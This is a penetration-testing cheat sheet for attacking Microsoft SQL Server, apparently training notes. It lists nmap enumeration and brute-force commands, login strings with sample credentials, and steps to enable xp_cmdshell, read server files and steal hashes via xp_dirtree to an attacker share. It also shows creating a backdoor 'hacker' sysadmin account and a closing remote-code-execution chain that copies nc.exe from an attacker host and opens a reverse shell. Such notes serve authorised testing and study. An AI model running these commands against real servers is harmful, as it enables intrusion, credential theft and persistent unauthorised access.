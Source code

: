 **Microsoft SQL Server**

## Nmap Scripts

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.10.10.3
```

# Connecting to MsSQL from Windows

```
sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30
```
# Connecting to MsSQL from Linux

`Remember! after command type 'go'`

```
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h

sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
# Windows Authentication mechanism is used by the MSSQL server
```

# MsSQL Commands

| MSSQL Command                                                                                                      | Description                                                                                                                                        |
| ------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------- |
| `select @@version;`                                                                                                | Show DB version.                                                                                                                                   |
| `select user_name();`                                                                                              | Show current user.                                                                                                                                 |
| `SELECT name FROM master.dbo.sysdatabases`                                                                         | Show all available databases in MSSQL.                                                                                                             |
| `USE htbusers`                                                                                                     | Select a specific database in MSSQL (`htbusers`).                                                                                                  |
| `SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES`                                                                 | Show all available tables in the selected database (`htbusers`) in MSSQL.                                                                          |
| `SELECT * FROM users`                                                                                              | Select all available entries from the `users` table in the currently selected database in MSSQL.                                                   |
| `EXECUTE sp_configure 'show advanced options', 1`                                                                  | To allow advanced options to be changed.                                                                                                           |
| `EXECUTE sp_configure 'xp_cmdshell', 1`                                                                            | To enable the `xp_cmdshell` extended stored procedure.                                                                                             |
| `RECONFIGURE`                                                                                                      | To be used after each `sp_configure` command to apply the changes.                                                                                 |
| `xp_cmdshell 'whoami'`                                                                                             | Execute a system command (`whoami`) from the MSSQL server.                                                                                         |
| `SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`                 | Read the content of a local file (`C:/Windows/System32/drivers/etc/hosts`) on the MSSQL server.                                                    |
| `EXEC master..xp_dirtree '\\\\10.10.110.17\share\'`                                                                | Display the directory and file structure of a network share (`\\\\10.10.110.17\share\`) using `xp_dirtree` in MSSQL (potential for hash stealing). |
| `EXEC master..xp_subdirs '\\\\10.10.110.17\share\'`                                                                | Display the subdirectories of a network share (`\\\\10.10.110.17\share\`) using `xp_subdirs` in MSSQL (potential for hash stealing).               |
| `SELECT srvname, isremote FROM sysservers`                                                                         | Identify linked servers configured in MSSQL and whether they are remote.                                                                           |
| `EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]` | Execute a query on the linked server (`[10.0.0.12\SQLEXPRESS]`) in MSSQL, identifying server name, version, user, and `sysadmin` role membership.  |
| `CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'`                                                               | Create account.                                                                                                                                    |
| `EXEC sp_addsrvrolemember 'hacker', 'sysadmin'`                                                                    | Add sysadmin priv to account.                                                                                                                      |
## BruteForce

```
nmap -n -v -sV -Pn -p 1433 –script ms-sql-brute –script-args userdb=users.txt,passdb=passwords.txt $ip
```

## RCE with SQL Server

```
mssqlclient.py <domain>/<username>:<password>@$ip

mssqlclient.py bathry/admin:pss123@192.168.11.15
```

```
SQL> enable_xp_cmdshell 
# Enable Code Execution

SQL> xp_cmdshell copy \\10.10.16.26\gabbar\nc.exe %temp%\nc.exe 
# Copied the Nishang reverse shell to current directory

SQL> xp_cmdshell %temp%/nc.exe -e cmd.exe 10.10.16.26 4444
# Start
```


